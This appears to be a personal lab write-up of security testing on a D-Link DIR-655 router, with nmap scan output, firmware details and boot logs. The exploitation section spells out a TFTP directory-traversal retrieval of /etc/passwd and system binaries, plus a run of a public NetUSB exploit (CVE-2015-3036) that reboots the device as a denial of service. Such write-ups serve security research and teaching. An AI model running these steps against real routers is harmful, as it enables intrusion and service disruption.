



# Hardware hacking: D-Link DIR-655



## Content

  * [Basic info](#basic-info)
  * [Disassembly](#disassembly)
  * [Port scanning](#port-scanning)
    + [TCP enumeration scan](#tcp-enumeration-scan)
    + [TCP vulnerability scan](#tcp-vulnerability-scan)
    + [UDP enumeration scan](#udp-enumeration-scan)
    + [UDP vulnerability scan](#udp-vulnerability-scan)
  * [Web management](#web-management)
  * [Exploitation](#exploitation)
    + [TFTP directory traversaln](#tftp-directory-traversal)
    + [CVE-2015-3036](#cve-2015-3036)
    
## Basic info
* Vendor product page: <https://eu.dlink.com/uk/en/products/dir-655-wireless-n-gigabit-router>
* Product released: around 2010
* Last date of support was on: 14/05/2018.
* Latest firmware available: 2.09 (released 12/11/2013) 
* Firmware installed on tested device: 2.09
* Hardware Version: B1
* System details:
```
Linux version 2.6.28.10 (test@yufa.core8) (gcc version 4.4.1 20100320 (stable) (GCC) )
BusyBox v1.14.1 (2010-08-12 10:39:13 CST)* 
```

## Disassembly

How to disassembly routers case: <https://www.ifixit.com/Guide/How+To+Repair+An+Overheating+D-LINK+DIR-655+Wireless+Router/50381>



* Unfortunately there is no label for UART pins. 
* **I just guess**: The group of 10 pins in lower left corner is JTAG interface. I dont have logic analysator to verify.

## Port scanning
### TCP enumeration scan

Full `nmap` TCP scan with command: `nmap -v -sV -sC -p- -oA`.

```
Nmap scan report for 10.0.0.5
Host is up (0.0016s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE    VERSION
80/tcp    open     tcpwrapped
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: httpd
|_http-title: D-LINK CORPORATION, INC | WIRELESS ROUTER | HOME
111/tcp   filtered rpcbind
139/tcp   open     tcpwrapped
443/tcp   open     ssl/https?
| ssl-cert: Subject: commonName=www.dlink.com/organizationName=D-Link Corporation/stateOrProvinceName=Taiwan/countryName=TW
| Issuer: commonName=www.dlink.com/organizationName=D-Link Corporation/stateOrProvinceName=Taiwan/countryName=TW
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-04-28T06:22:38
| Not valid after:  2019-04-26T06:22:38
| MD5:   6898 aa99 3218 14d7 63f1 587d a15f 3b26
|_SHA-1: ce25 3a40 6071 50ba 8616 d456 b6c8 eabf c1d1 9490
|_ssl-known-key: Found in Little Black Box 0.1 - http://code.google.com/p/littleblackbox/ (SHA-1: ce25 3a40 6071 50ba 8616 d456 b6c8 eabf c1d1 9490)
20005/tcp open     btx?
| fingerprint-strings: 
|   NCP: 
|     Ex'[
|   RTSPRequest: 
|     4;4X
|   afp: 
|_    ySsv
33344/tcp open     unknown
| fingerprint-strings: 
|   GenericLines: 
|     connect success 424ffe80 
|     NetUSB 1.02.40, 2009, 0002061C 
|     AUTH SIG ISOC
|     filterAudio
|     <INFO1EAF: get verifyData error ret:2 sizeof(verifyData)=16
|     *INFO1F58: connent fail from : 424ffd40 
|     4INFO1632: new connection from 10.0.0.24 : 427fce20
|   NULL: 
|     connect success 424ffe80 
|     NetUSB 1.02.40, 2009, 0002061C 
|     AUTH SIG ISOC
|     filterAudio
|   X11Probe: 
|     connect success 424ffe80 
|     NetUSB 1.02.40, 2009, 0002061C 
|     AUTH SIG ISOC
|     filterAudio
|     %INFO1ED1: get cryptData error ret:0
|     *INFO1F58: connent fail from : 4204d960 
|     4INFO1632: new connection from 10.0.0.24 : 427d4220
|     !INFO1ED9: randomData not match!
|_    *INFO1F58: connent fail from : 427d4220
65530/tcp open     upnp       MiniUPnP (UPnP 1.1)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port20005-TCP:V=7.91%I=7%D=6/5%Time=60BB8AFC%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,20,"\n1\xfa\x1b\x11\x85\xecn\xe7\xe4v1\xc5JB\xe6\xcf\xd1\xbd\x
SF:b9L\x0fy\xb0TN>\xff\x18\xf8\xc3F")%r(HTTPOptions,20,"\tu\x9f/\)9\xec\x1
SF:4\xe2\|1\0\xdf\x89\xad\xef\$Q\x90d\x12\x85\xb2\xa2\xd1L\xd3BW\xd8y\xb0"
SF:)%r(RTSPRequest,20,"s\xae\0C-\x93\x86%\)`\xce\x7fc\xba4;4X\xec\?\x06\t\
SF:xac\xc6\xb2\xde\xdec\xc4\xb60\xf8")%r(DNSVersionBindReqTCP,20,"\xbf\x95
SF:z\ra\xa2'\xded\xca\xd6\x20~\x92\x84\x8f\r3\xefij\xc1Yk\x19\xb6\x8e\?9\*
SF:\x16\x20")%r(NCP,20,"\xba\xe9\xd4T\(\xd2~\xa0Ex'\[\xea\xd6\x8b\xe5\xd6\
SF:x1a\x81n\xab\xc6\xd7\xd3\x95\x06O\xcaF\x1aY\xd1")%r(afp,20,"\x9f\xf5\x1
SF:e1\xd1\xf4\xfa\xb1\xd1ySsv\xf1h\x04C\x9a\0IMe\xd2\x94'%g\xffd\x1fNe");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33344-TCP:V=7.91%I=7%D=6/5%Time=60BB8AF7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,70,"\0\0\0\x1c\x20connect\x20success\x20424ffe80\x20\n\0\0\0\0\"\x20
SF:NetUSB\x201\.02\.40,\x202009,\x200002061C\x20\n\0\0\0\0\x10\x20AUTH\x20
SF:SIG\x20ISOC\n\0\0\0\0\x0e\x20filterAudio\n\0\0\0\0\0")%r(GenericLines,1
SF:1A,"\0\0\0\x1c\x20connect\x20success\x20424ffe80\x20\n\0\0\0\0\"\x20Net
SF:USB\x201\.02\.40,\x202009,\x200002061C\x20\n\0\0\0\0\x10\x20AUTH\x20SIG
SF:\x20ISOC\n\0\0\0\0\x0e\x20filterAudio\n\0\0\0\0\0\0\0\0<INFO1EAF:\x20ge
SF:t\x20verifyData\x20error\x20ret:2\x20sizeof\(verifyData\)=16\n\0\0\0\0\
SF:*INFO1F58:\x20\x20connent\x20fail\x20from\x20:\x20424ffd40\x20\n\0\0\0\
SF:x004INFO1632:\x20new\x20connection\x20from\x2010\.0\.0\.24\x20:\x20427f
SF:ce20\n\0\0\0\0\0")%r(X11Probe,14E,"\0\0\0\x1c\x20connect\x20success\x20
SF:424ffe80\x20\n\0\0\0\0\"\x20NetUSB\x201\.02\.40,\x202009,\x200002061C\x
SF:20\n\0\0\0\0\x10\x20AUTH\x20SIG\x20ISOC\n\0\0\0\0\x0e\x20filterAudio\n\
SF:0\0\0\0%INFO1ED1:\x20get\x20cryptData\x20error\x20ret:0\n\0\0\0\0\*INFO
SF:1F58:\x20\x20connent\x20fail\x20from\x20:\x204204d960\x20\n\0\0\0\x004I
SF:NFO1632:\x20new\x20connection\x20from\x2010\.0\.0\.24\x20:\x20427d4220\
SF:n\0\0\0\0!INFO1ED9:\x20randomData\x20not\x20match!\n\0\0\0\0\*INFO1F58:
SF:\x20\x20connent\x20fail\x20from\x20:\x20427d4220\x20\n\0");
MAC Address: 14:D6:4D:27:94:A6 (D-Link International)

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: ERROR: Script execution failed (use -d to debug)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 16:33:23 2021 -- 1 IP address (1 host up) scanned in 78.56 seconds
                                                                                                    
```

### TCP vulnerability scan

nmap scan with `vuln` script. Executed command: `nmap -v -sV --script vuln -o nmap/vuln`.
```
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.0.0.5
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       DD-WRT milli_httpd
|_http-server-header: httpd
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.0.0.5
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.0.0.5:80/
|     Form id: form1
|_    Form action: login.cgi
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-vuln-cve2010-0738: 
|_  /jmx-console/: Authentication was not required
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
111/tcp   filtered rpcbind
139/tcp   open     tcpwrapped
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)
443/tcp   open     ssl/http   DD-WRT milli_httpd
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.cvedetails.com/cve/2014-0224
|_      http://www.openssl.org/news/secadv_20140605.txt
|_http-server-header: httpd
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| sslv2-drown: 
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|   vulns: 
|     CVE-2016-0800: 
|       title: OpenSSL: Cross-protocol attack on TLS using SSLv2 (DROWN)
|       state: VULNERABLE
|       ids: 
|         CVE:CVE-2016-0800
|       description: 
|               The SSLv2 protocol, as used in OpenSSL before 1.0.1s and 1.0.2 before 1.0.2g and
|       other products, requires a server to send a ServerVerify message before establishing
|       that a client possesses certain plaintext RSA data, which makes it easier for remote
|       attackers to decrypt TLS ciphertext data by leveraging a Bleichenbacher RSA padding
|       oracle, aka a "DROWN" attack.
|     
|       refs: 
|         https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0800
|_        https://www.openssl.org/news/secadv/20160301.txt
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: Found in Little Black Box 0.1 - http://code.google.com/p/littleblackbox/ (SHA-1: ce25 3a40 6071 50ba 8616 d456 b6c8 eabf c1d1 9490)
| ssl-poodle: 
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  CVE:CVE-2014-3566  BID:70574
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.securityfocus.com/bid/70574
|_      https://www.openssl.org/~bodo/ssl-poodle.pdf
20005/tcp open     btx?
| fingerprint-strings: 
|   NCP: 
|     Ex'[
|     h{E+
|   afp: 
|_    ySsv
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port20005-TCP:V=7.92%I=7%D=6/26%Time=62B8277B%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,20,"\n1\xfa\x1b\x11\x85\xecn\xe7\xe4v1\xc5JB\xe6\[\xe5\x7f\xe
SF:d\xe7\xa4h\x20\x9eB\xf2\xfe\$\xc4Nq")%r(HTTPOptions,20,"\tu\x9f/\)9\xec
SF:\x14\xe2\|1\0\xdf\x89\xad\xef\xe1\xd3\)\xab#\xfd\xf7\x8b\x9e\x90d7\x14\
SF:x1f\xa0q")%r(RTSPRequest,20,"s\xae\0C-\x93\x86%\)`\xce\x7fc\xba4;\xcd\^
SF:\x16\x95\xf4\xdeYS\x8e\xc9\x04Q=R\xb9\xdd")%r(DNSVersionBindReqTCP,20,"
SF:\xbf\x95z\ra\xa2'\xded\xca\xd6\x20~\x92\x84\x8f\r\r\x19\x80S/\xa8\xdcdY
SF:\xa1\x9e=\x97\xa0\xb3")%r(NCP,20,"\xba\xe9\xd4T\(\xd2~\xa0Ex'\[\xea\xd6
SF:\x8b\xe5\x15;\x8fZT\x9ah{E\+\x1d\x8aV\x96\x83k")%r(afp,20,"\x9f\xf5\x1e
SF:1\xd1\xf4\xfa\xb1\xd1ySsv\xf1h\x04\xc6L\xd1\x16a=\x0c\x0cI\x8b\x08\xcae
SF:E\xdbC");
MAC Address: 14:D6:4D:27:94:A6 (D-Link International)
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb-vuln-ms07-029: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms08-067: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-cve-2017-7494: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms17-010: ERROR: Script execution failed (use -d to debug)
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-double-pulsar-backdoor: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-conficker: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms06-025: ERROR: Script execution failed (use -d to debug)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 26 11:40:30 2022 -- 1 IP address (1 host up) scanned in 578.79 seconds
                                                                                                       
```
### UDP enumeration scan

Full UDP scan with nmap command `nmap -v -sU -sV -sC -oA`.
```
Nmap scan report for 10.0.0.5
Host is up (0.0030s latency).
Not shown: 950 closed ports
PORT      STATE         SERVICE        VERSION
20/udp    open|filtered ftp-data
69/udp    open          tftp?
| fingerprint-strings: 
|   xdmcp: 
|_    B;No such file or director
111/udp   open          rpcbind        2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|_  100000  2            111/udp   rpcbind
112/udp   open|filtered mcidas
137/udp   open|filtered netbios-ns
664/udp   open|filtered secure-aux-bus
1013/udp  open|filtered unknown
1065/udp  open|filtered syscomlan
1081/udp  open|filtered pvuniwien
1900/udp  open          upnp?
| upnp-info: 
| 10.0.0.5
|     Server: UPnP/1.1 MiniUPnPd
|_    Location: http://10.0.0.5:65530/rootDesc.xml
3702/udp  open|filtered ws-discovery
4045/udp  open|filtered lockd
5353/udp  open          mdns           DNS-based service discovery
| dns-service-discovery: 
|   80/tcp dhnap
|     Address=10.0.0.5 fe80::16d6:4dff:fe27:94a6
|   80/tcp http
|_    Address=10.0.0.5 fe80::16d6:4dff:fe27:94a6
5355/udp  open          llmnr?
...
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port69-UDP:V=7.91%I=7%D=6/5%Time=60BB9E7D%P=x86_64-pc-linux-gnu%r(xdmcp
SF:,1E,"\0\x05\0\x02B;No\x20such\x20file\x20or\x20director");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5355-UDP:V=7.91%I=7%D=6/5%Time=60BB9E7D%P=x86_64-pc-linux-gnu%r(xdm
SF:cp,C,"\0\x01\x80\0\0\x01\0\x02\x02Ji\x02")%r(NetMotionMobility,C,"\0@\x
SF:80\0\0\0\0\x85\]\xb4\x91\(");
MAC Address: 14:D6:4D:27:94:A6 (D-Link International)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 18:00:32 2021 -- 1 IP address (1 host up) scanned in 1366.64 seconds

```
### UDP vulnerability scan

Nothing valuable was discovered.

## Web management

Screenshot from *Status* page after authetication:




Unauthenticated request: `curl -i http://10.0.0.5/st_device.asp`

and output is following:
```
HTTP/1.0 200 Ok
Server: httpd
Date: Sat, 05 Jun 2021 22:35:13 GMT
Cache-Control: no-cache
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close
```

Full file: [st_device.asp](st_device.asp)

## Exploitation

### TFTP directory traversal

* Usefull guide: <https://book.hacktricks.xyz/pentesting/69-udp-tftp>
* Vulnerability description: <https://www.tenable.com/plugins/nessus/18262>

Vulnerability was discovered by  nmap with TFTP enumeration script: `nmap -sU -p 69 --script tftp-enum.nse 10.0.0.5`: 
```
Nmap scan report for 10.0.0.5
Host is up (0.00041s latency).

PORT   STATE SERVICE
69/udp open  tftp
| tftp-enum: 
|   etc/passwd
|_  ../../../../../../../etc/passwd
MAC Address: 14:D6:4D:27:94:A6 (D-Link International)
```

To get `/etc/passwd` file just connect to router:
```
tftp 10.0.0.5
```

Set up TFTP client
```
tftp> status
Connected to 10.0.0.5.
Mode: netascii Verbose: off Tracing: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> verbose
Verbose mode on.
```
and use `get` command:
```
tftp> get ../../../../../../../etc/passwd
getting from 10.0.0.5:../../../../../../../etc/passwd to passwd [netascii]
Received 55 bytes in 0.0 seconds [inf bits/sec]
```

Content of file:
```
root:x:0:0:root:/root:/bin/sh
nobody:x:99:99:Nobody::   
```

From bootlog we know that on router is running Busybox, so we can obtain `/bin/busybox` binary:
```
tftp> get ../../../../../../../bin/busybox
getting from 10.0.0.5:../../../../../../../bin/busybox to busybox [netascii]
Received 403280 bytes in 0.6 seconds [5377067 bits/sec]
```
Lets check it with `binwalk busybox `:
```

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
2             0x2             ELF, 32-bit MSB executable, Ubicom32, version 1 (SYSV)
326432        0x4FB20         Copyright string: "Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko"
329294        0x5064E         Neighborly text, "neighborsop after sending N ARP requests"
329338        0x5067A         Neighborly text, "neighborsTime to wait for ARP reply, in seconds"
349999        0x5572F         Unix path: /var/log/messages)
357160        0x57328         Unix path: /var/run/utmp
372539        0x5AF3B         Unix path: /var/log/messages
388223        0x5EC7F         Unix path: /etc/init.d/rcS
392100        0x5FBA4         Base64 standard index table
```

Now we can enumerate some well known Linux binaries:
```
tftp> get ../../../../../../../bin/id  
getting from 10.0.0.5:../../../../../../../bin/id to id [netascii]
Received 403280 bytes in 0.6 seconds [5377067 bits/sec]

tftp> get ../../../../../../../bin/ping   
getting from 10.0.0.5:../../../../../../../bin/ping to ping [netascii]
Received 403280 bytes in 0.6 seconds [5377067 bits/sec]

tftp> get ../../../../../../../bin/sh     
getting from 10.0.0.5:../../../../../../../bin/sh to sh [netascii]
Received 403280 bytes in 0.6 seconds [5377067 bits/sec]

tftp> get ../../../../../../../bin/wget
getting from 10.0.0.5:../../../../../../../bin/wget to wget [netascii]
Received 403280 bytes in 0.5 seconds [6452480 bits/sec]
```

Unfortunately, there is no `nc` or `telnet` binaries for possible reverse shell.:
```
tftp> get ../../../../../../../bin/telnet 
getting from 10.0.0.5:../../../../../../../bin/telnet to telnet [netascii]
Error code 2: B:No such file or directornamic

tftp> get ../../../../../../../bin/nc     
getting from 10.0.0.5:../../../../../../../bin/nc to nc [netascii]
Error code 2: B:No such file or directornamic

tftp> get ../../../../../../../bin/ncat   
getting from 10.0.0.5:../../../../../../../bin/ncat to ncat [netascii]
Error code 2: B:No such file or directornamic

tftp> get ../../../../../../../bin/netcat 
getting from 10.0.0.5:../../../../../../../bin/netcat to netcat [netascii]
Error code 2: B:No such file or directornamic
```

### CVE-2015-3036

**NetUSB Remote Code Execution**

* Description: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3036>
> Stack-based buffer overflow in the run_init_sbus function in the KCodes NetUSB module for the Linux kernel, as used in certain NETGEAR products, TP-LINK products, and other products, allows remote attackers to execute arbitrary code by providing a long computer name in a session on TCP port 20005. 

* Used exploit: <https://www.exploit-db.com/exploits/38454>
* OS: Kali Linux 2022.2

**Note:** Due to limited amount of available commands provided by BusyBox, we unfortunately can not obtain reverse shell. We can execute build-in commands, for example `reboot` to perform DoS attack and make router unavailable.

Executed command:
```
python2 38454.py 10.0.0.5 20005 reboot 
```
Output:
```
## NetUSB (CVE-2015-3036) remote code execution exploit
## by blasty <peter@haxx.in>

[>] sending HELLO pkt
[>] sending verify data
[>] reading response
[!] got 32 bytes ..
[>] data: ec4f72cf6a1a6da7d68223d94f085ffb0b9a1c2f7e5093aeec449057935abd0f
[>] decr: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa5fec41bd88ae9b35063831d9d381e601
[>] sending back crypted random data
[>] sending computername_length..
[>] sending payload..
[>] sending stage2..
[~] KABOOM! Have a nice day.

```

After execution router is rebooted is and come back after approx 20 secs. ICMP ping check is disrupted:
```
64 bytes from 10.0.0.5: icmp_seq=12 ttl=64 time=0.644 ms
64 bytes from 10.0.0.5: icmp_seq=13 ttl=64 time=0.490 ms
64 bytes from 10.0.0.5: icmp_seq=14 ttl=64 time=0.605 ms
<EXPLOIT EXECUTED>
64 bytes from 10.0.0.5: icmp_seq=33 ttl=64 time=8.57 ms
64 bytes from 10.0.0.5: icmp_seq=34 ttl=64 time=0.685 ms
64 bytes from 10.0.0.5: icmp_seq=35 ttl=64 time=2.49 ms
```

## Bootlog

Full boot log was obtained from web administration after log in:

```
May 30 16:59:11    debug    Entering released state
May 30 16:59:11    debug    Performing a DHCPC release
May 30 16:59:11    debug    DHCPC Received SIGUSR2='DHCPC Release
May 30 16:59:06    debug    [   18.870000] br0: no IPv6 routers present
May 30 16:59:05    debug    [   18.310000] eth0.2: no IPv6 routers present
May 30 16:59:05    debug    [   18.210000] eth0.1: no IPv6 routers present
May 30 16:59:05    info    [   17.600000] usbcore: registered new interface driver USB General Driver
May 30 16:59:04    notice    HTTP listening on port 65535
May 30 16:59:02    debug    gpio create pidfile /var/run/gpio_wlan.pid
May 30 16:59:01    debug    [   14.210000] eth0: no IPv6 routers present
May 30 16:59:01    info    DHCP client start.
May 30 16:59:01    info    [Initialized, firmware version: 2.00 ] 
May 30 16:59:00    info    [    9.400000] br0: port 1(eth0.2) entering forwarding state
May 30 16:59:00    info    [    9.400000] br0: topology change detected, propagating
May 30 16:59:00    info    [    8.400000] br0: port 1(eth0.2) entering learning state
May 30 16:59:00    info    [    8.370000] device eth0.2 entered promiscuous mode
May 30 16:59:00    info    [    7.710000] device eth0 entered promiscuous mode
May 30 16:59:00    info    [    4.090000] eth0: register VLAN for HW acceleration
May 30 16:59:00    info    [    4.080000] eth open eth0
May 30 16:59:00    notice    [    3.820000] Freeing unused kernel memory: 5116k freed (0x403ae000 - 0x408ac000)
May 30 16:59:00    info    [    3.810000] All bugs added by David S. Miller 'davem@redhat.com'
May 30 16:59:00    info    [    3.810000] 802.1Q VLAN Support v1.8 Ben Greear 'greearb@candelatech.com'
May 30 16:59:00    info    [    3.810000] NET: Registered protocol family 17
May 30 16:59:00    info    [    3.810000] IPv6 over IPv4 tunneling driver
May 30 16:59:00    info    [    3.810000] ip6_tables: (C) 2000-2006 Netfilter Core Team
May 30 16:59:00    info    [    3.810000] NET: Registered protocol family 10
May 30 16:59:00    info    [    3.810000] TCP cubic registered
May 30 16:59:00    info    [    3.810000] ip_tables: (C) 2000-2006 Netfilter Core Team
May 30 16:59:00    info    [    3.810000] IPv4 over IPv4 tunneling driver
May 30 16:59:00    info    [    3.780000] usbcore: registered new interface driver libusual
May 30 16:59:00    info    [    3.780000] ohci_hcd: USB 1.1 'Open' Host Controller (OHCI) Driver
May 30 16:59:00    info    [    3.780000] ehci_hcd: USB 2.0 'Enhanced' Host Controller (EHCI) Driver
May 30 16:59:00    notice    [    3.770000] 6 cmdlinepart partitions found on MTD device ubicom32_boot_flash
May 30 16:59:00    info    [    3.770000] ubicom32flashdriver ubicom32flashdriver: mx25l64 (8192 Kbytes)
May 30 16:59:00    info    [    3.770000] eth_wan does not exist
